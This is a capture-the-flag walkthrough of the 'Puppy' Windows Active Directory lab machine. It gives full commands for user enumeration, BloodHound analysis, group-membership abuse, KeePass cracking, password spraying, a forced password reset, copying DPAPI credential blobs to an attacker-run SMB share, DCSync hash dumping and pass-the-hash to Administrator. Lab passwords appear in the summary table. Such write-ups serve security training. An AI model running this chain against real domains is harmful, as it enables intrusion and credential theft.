




# Puppy
```
Difficulty: Medium
Operating System: Windows
Hints: True
```

Nmap Scan
First, we perform an Nmap scan to identify open ports and services on the target puppy.htb.

Bash
```
nmap puppy.htb -sV
```
The scan reveals several open ports, including 53 (DNS), 88 (Kerberos), 135 (MSRPC), 139 (NetBIOS), 389 (LDAP), 445 (SMB), and 5985 (WinRM HTTP), indicating a Windows Active Directory environment.

Enumerating Users with rpcclient
Using the provided levi.james credentials, we attempt to enumerate domain users via rpcclient.

Bash
```
rpcclient 10.xx.xx.xx -U levi.james
```
After authenticating, we use enumdomusers to list users:

rpcclient $> enumdomusers
This successfully lists several users, including Administrator, Guest, krbtgt, levi.james, ant.edwards, adam.silver, jamie.williams, steph.cooper, and steph.cooper_adm.

SMB Share Enumeration with smbmap
Next, we use smbmap to enumerate accessible SMB shares on the target.

Bash
```
smbmap -H 10.xx.xx.xx -u levi.james -p 'KingofAkron2025!'
```
The output shows several shares. Notably, the DEV share is listed but currently inaccessible with NO ACCESS. We also see IPC$, NETLOGON, and SYSVOL with READ ONLY permissions.

Bloodhound for Initial Reconnaissance
To understand the Active Directory structure and identify potential attack paths, we'll use BloodHound. Before running BloodHound, we add dc.puppy.htb to /etc/hosts and synchronize the time.

Bash
```
ntpdate puppy.htb
```
Then, we collect data with bloodhound-python:

Bash
```
bloodhound-python -u 'levi.james' -p 'KingofAkron2025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```


Gaining Access to the DEV Share



Analyzing the BloodHound data, we find that the levi.james user has write permissions to the DEVELOPERS group. This is a crucial finding, as gaining membership in this group might grant access to the DEV share.

We use bloodyAD to add levi.james to the DEVELOPERS group:

Bash
```
bloodyAD --host '10.xx.xx.xx' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
```
With levi.james added to the DEVELOPERS group, we can now access the DEV share using smbclient.

Bash
```
smbclient //10.xx.xx.xx/DEV -U levi.james
```
Listing the contents of the DEV share, we find recovery.kdbx, which appears to be a KeePass database.

Privilege Escalation (KeePass Brute-Force)
We've found a KeePass database, which likely contains valuable credentials. Our next step is to brute-force its password.

Cracking recovery.kdbx
We first try to use keepass2john to convert the .kdbx file into a hash format suitable for John the Ripper, but it reports an unsupported file version.

Bash
```
keepass2john recovery.kdbx
```
Instead, we turn to r3nt0n/keepass4brute, a tool specifically designed for KDBX 4.x formats. We use it with the rockyou.txt wordlist.

Bash
```
./keepass4brute.sh ../recovery.kdbx /usr/share/wordlists/rockyou.txt
```
The brute-force is successful, and the password for recovery.kdbx is found to be **liv....ol**.

Extracting Credentials from KeePass
We open recovery.kdbx using keepassxc and extract several password values:

HJ...025!

Antma...25!

JamieL..e2025!

IL...25!

St.....25!

Privilege Escalation (Credential Reuse & Account Manipulation)
With a list of new passwords, we can attempt to reuse them against various user accounts to gain higher privileges.

Password Spraying with netexec
We perform a password spray attack using netexec against the identified usernames and the extracted passwords.

Bash

```
netexec smb 10.xx.xx.xx -u usernames.txt -p pass.txt
```
The password spray reveals a successful login: ant.edwards/Antman2025!.

Bloodhound with ant.edwards
We collect BloodHound data again, this time with the newly compromised ant.edwards credentials.

Bash
```
bloodhound-python -u 'ant.edwards' -p 'Antman2025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
Analysis of the BloodHound results indicates that the group ant.edwards is a member of has full control over the adam.silver user object. This is a significant finding, as it allows us to reset adam.silver's password.

Resetting adam.silver's Password
We use bloodyAD to change adam.silver's password.

Bash
```
bloodyAD --host '10.xx.xx.xx' -d 'dc.puppy.htb' -u 'ant.edwards' -p 'Antman2025!' set password ADAM.SILVER Abc123456!
```
Although the password change is reported as successful, we are unable to log in with adam.silver.

Enabling adam.silver's Account
We investigate the adam.silver account using ldapsearch to determine why login is failing.

Bash
```
ldapsearch -x -H ldap://10.xx.xx.xx -D "ANT.EDWARDS@PUPPY.HTB" -W -b "DC=puppy,DC=htb" "(sAMAccountName=ADAM.SILVER)"
```
The output reveals userAccountControl: 66050, which signifies that the account is disabled.

To enable the account, we modify the userAccountControl attribute using ldapmodify. The value 66048 represents an enabled account.

Bash
```
ldapmodify -x -H ldap://10.xx.xx.xx -D "ANT.EDWARDS@PUPPY.HTB" -W << EOF
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 66048
EOF
```

### Privilege Escalation (Backup Files & DPAPI)

With adam.silver's account now enabled, we can proceed to look for further privilege escalation opportunities.

Investigating Backups
We connect to the target using evil-winrm with adam.silver's credentials.

Bash
```
evil-winrm -i 10.xx.xx.xx -u 'ADAM.SILVER' -p 'Abc123456!'
```


Once connected, we check the C:\Backups directory and find a site-backup-2024-12-30.zip file.

PowerShell
```
ls C:\Backups
```
We download the backup file to our Kali machine.

PowerShell
```
download site-backup-2024-12-30.zip
```
Upon decompressing the zip file, we discover nms-auth-config.xml.bak, which contains the credentials for steph.cooper: Chef......025!.

Bash
```
cat nms-auth-config.xml.bak
```
Bloodhound with steph.cooper
We collect BloodHound data again using steph.cooper's credentials.

Bash
```
bloodhound-python -u 'steph.cooper' -p 'ChefSteph2025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
The BloodHound results don't immediately reveal any obvious paths to domain administrator. This suggests a different approach might be needed.

DPAPI Decryption
Recalling a previously seen DPAPI blob on adam.silver's desktop, we decide to investigate steph.cooper's DPAPI credentials. Windows Credential Manager stores credentials encrypted with DPAPI, which requires the user's master key.

We locate the DPAPI credentials and master key blobs for steph.cooper.

PowerShell
```
dir -h C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials
dir -h C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107
```
Direct download of these files may cause issues, so we set up an impacket-smbserver on our Kali machine to receive the files.

Bash
```
impacket-smbserver share ./share -smb2support
```
Then, from the evil-winrm shell, we copy the masterkey_blob and credential_blob to our SMB share.

PowerShell
```
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.16.75\share\masterkey_blob
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.16.75\share\credential_blob
```
Now, we use impacket-dpapi to decrypt the master key using steph.cooper's password and SID.

Bash
```
impacket-dpapi masterkey -file masterkey_blob -password 'Ch......2025!' -sid S-1-5-21-1487982659-...........-2281216199-1107
```
This command outputs the decrypted master key.

Finally, we use the decrypted master key to decrypt the credential_blob, which reveals the plaintext credentials.

Bash
```
impacket-dpapi credential -file credential_blob -key 0xd9a5707.....................91b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```
This successfully extracts the password for steph.cooper_adm: FivethC..........2025!.

Domain Dominance
We now have the credentials for steph.cooper_adm, which is a likely candidate for a highly privileged account.

Bloodhound with steph.cooper_adm
We run BloodHound one last time with the steph.cooper_adm credentials.

Bash
```
bloodhound-python -u 'steph.cooper_adm' -p 'Fiveth.............025!' -d puppy.htb -ns 10.xx.xx.xx -c All --zip
```
While the BloodHound output might not immediately show a direct path, the name steph.cooper_adm strongly suggests administrative privileges.

DCSync with impacket-secretsdump
Given the administrative nature of steph.cooper_adm, we attempt a DCSync attack using impacket-secretsdump to extract NTLM hashes of all domain accounts, including the Administrator account.

Bash
```
impacket-secretsdump 'puppy.htb/steph.cooper_adm:Fivet................2025!'@10.xx.xx.xx
```
This command successfully dumps the NTLM hashes for all domain users, including the Administrator account.

Final Access as Administrator
With the Administrator NTLM hash, we can now use evil-winrm to gain a shell as the Administrator and retrieve the root.txt flag.

Bash
```
evil-winrm -i 10.xx.xx.xx -u 'Administrator' -H '<HIDDEN_ADMIN_HASH>'
cd ../desktop
cat root.txt
```

Once connected, navigate to the desktop and retrieve the flag
This completes the penetration test, gaining full control of the domain.

#### 🏁 Summary of Attack Chain
```
Step	User / Access	Technique Used	Result
1	levi.james	Nmap, rpcclient, smbmap, BloodHound	Identified open ports, enumerated users, found inaccessible DEV share
2	levi.james	bloodyAD (Group Membership)	Added levi.james to DEVELOPERS group, gained access to DEV share
3	levi.james	SMB, KeePass Brute-Force	Downloaded recovery.kdbx, cracked password (liverpool)
4	(Local)	KeePass Extraction	Obtained various user passwords (e.g., HJKL2025!, Antman2025!)
5	(Multiple Users)	Netexec (Password Spray)	Identified ant.edwards/Antman2025! as valid credentials
6	ant.edwards	BloodHound (ACL Analysis)	Found ant.edwards had Full Control over adam.silver user object
7	ant.edwards	bloodyAD (Password Reset)	Reset adam.silver's password, but account was disabled
8	ant.edwards	ldapsearch, ldapmodify	Enabled adam.silver's account
9	adam.silver	Evil-WinRM, SMB	Connected via WinRM, downloaded site-backup-2024-12-30.zip
10	(Local)	File Analysis	Discovered steph.cooper/ChefSteph2025! in backup file
11	steph.cooper	Evil-WinRM, impacket-smbserver, impacket-dpapi	Extracted steph.cooper's DPAPI master key and steph.cooper_adm credentials (FivethChipOnItsWay2025!)
12	steph.cooper_adm	impacket-secretsdump (DCSync)	Dumped NTLM hashes for all domain accounts, including Administrator
13	Administrator	Evil-WinRM (Pass-the-Hash)	Gained Administrator shell, retrieved root.txt
```

**Pwned! Puppy**